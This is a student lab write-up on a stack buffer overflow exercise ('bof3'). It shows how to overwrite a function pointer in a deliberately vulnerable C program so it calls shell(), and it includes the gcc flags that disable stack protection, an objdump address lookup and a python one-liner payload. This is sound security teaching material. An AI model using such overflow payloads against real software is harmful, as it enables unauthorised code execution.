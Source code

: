 # Lab bof3
Hà Quốc Tiến - 22110075<br>
## Target
- `void (*func)()=sup;` is calling the `sup()`, we want it to run the `shell()` instead.
## Solution
- Stack frame<br>
![bof3_1](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/Buffer-overflow/img/bof3_1.png)
- Viewing the stack frames, we see that in order to call `shell()` instead. We need to buffer-overflow so that `(*func)() = "shell()'s address"`. It's similar to `bof2.c`, here we also look at the `fgets()`. And see it can take 133 bytes of data, while `buf` can only store 128.<br>
## Execution
1. Create `bof3.out` by using ` gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
2. Get the address of `shell()`.<br>
    > `objdump -d bof3.out|grep shell`

    ![bof3_2](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/Buffer-overflow/img/bof3_2.png)
3. We start buffer-overflowing 132 bytes of data into `buf[128]`.
128 bytes of random data + 4 bytes address of `shell()`<br>
    > echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')")| ./bof3.out

    ![bof3_3](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/Buffer-overflow/img/bof3_3.png)
- And the labs is done.
